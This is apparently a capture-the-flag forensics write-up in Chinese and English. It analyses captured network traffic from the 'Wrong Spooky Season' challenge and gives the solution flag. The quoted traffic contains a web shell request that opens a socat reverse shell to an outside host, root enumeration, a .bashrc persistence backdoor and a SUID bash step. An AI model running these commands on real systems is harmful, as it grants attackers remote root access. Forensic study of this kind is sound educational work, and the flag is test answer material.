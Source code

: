 # Wrong Spooky Season

:::note CHALLENGE DESCRIPTION

Difficulty: VERY EASY

I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong.&quot; Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.

我告诉过他们，现在部署这样一个网站还为时过早，而且季节也不对，但他们向我保证，只要主题设计得当，就能阻止幽灵的侵扰。我错了。现在，`Spooky Network` 内部发生了入侵事件，你需要查明发生了什么。分析网络流量，找出可怕的幽灵是如何入侵的，以及他们做了什么。

:::

题目提供了一个流量包文件

![img](img/image_20240348-194839.png)

在 `TCP Stream 13` 中得到

```plaintext
GET /e4d1c32a56ca15b3.jsp?cmd=socat%20TCP:192.168.1.180:1337%20EXEC:bash HTTP/1.1
Host: 192.168.1.166:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

URL Decode 得到

```plaintext
socat TCP:192.168.1.180:1337 EXEC:bash
```

看起来就是将 bash 绑定到了 `1337` 端口，看下一个会话

```plaintext
id
uid=0(root) gid=0(root) groups=0(root)
groups
root
uname -r
5.18.0-kali7-amd64
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
ls -lha
total 20K
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 .
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 ..
-rwxrwx--- 1 root root 1.8K Oct  8 00:04 pom.xml
drwxr-xr-x 3 root root 4.0K Oct 10 17:27 src
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 target
```

在其中找到

```plaintext
==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS

Reverse

SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==

Base64 Decode

HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```

```plaintext title="Flag"
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```
